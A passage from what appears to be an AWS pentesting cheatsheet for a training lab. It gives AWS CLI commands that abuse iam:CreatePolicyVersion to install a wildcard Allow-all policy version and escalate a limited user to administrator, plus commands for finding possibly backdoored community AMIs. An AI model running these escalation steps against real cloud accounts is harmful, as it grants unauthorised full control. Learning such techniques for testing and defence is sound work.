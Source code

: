 aws iam list-attached-user-policies --user-name limiteduser --profile masterclasslimiteduser

Get the version of the identified policy - policyversionmanager

aws iam get-policy --policy-arn POLICY-ARN --profile masterclasslimiteduser


Get the permissions attached to the policy for version v1 - policyversionmanager

aws iam get-policy-version --policy-arn POLICY-ARN --version-id v1 --profile masterclasslimiteduser

One of the permissions attached is "iam:CreatePolicyVersion"

We can use this to create a new version of the attached policy with privileged access

aws iam create-policy-version --policy-arn POLICY-ARN --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]}' --set-as-default --profile masterclasslimiteduser

Run an admin command now to confirm your privileges have escalated to AWS AdministratorAccess

aws iam list-users  --profile masterclasslimiteduser




#iam privilege escalation based on groups  

<img width="981" alt="image" src="https://github.com/mohdhaji87/AWS-cheatsheet/assets/8140763/de94a793-2c5f-46ea-874b-20af2817c4c1">




------------------------------------------------------------


# EC2 




AMI catalog:

https://us-east-1.console.aws.amazon.com/ec2/home?region=us-east-1#AMICatalog:

From console we can see the public AMI's which might be backdoor ami's as well.

Navigate to EC2 > AMI Catalog and find the “masterclass” AMI under Community AMIs

For AWS CLI ...

Run the following command to find AMIs belonging to the account 511522223657

aws ec2 describe-images --owners 511522223657 --profile masterclass

aws ec2 describe-images --owners 511522223657 --query 'Images[*].[ImageId, Name, PlatformDetails]' --profile masterclass

aws ec2 describe-images --filters "Name=name,Values=session5-warfare" --profile masterclass


<img width="1241" alt="image" src="https://github.com/mohdhaji87/AWS-cheatsheet/assets/8140763/d8511ce2-59b4-4bcc-b1d6-0d9398ea592d">


<img width="1241" alt="image" src="https://github.com/mohdhaji87/AWS-cheatsheet/assets/8140763/a07c4d3c-36e9-44ad-b621-acfe884e94dd">
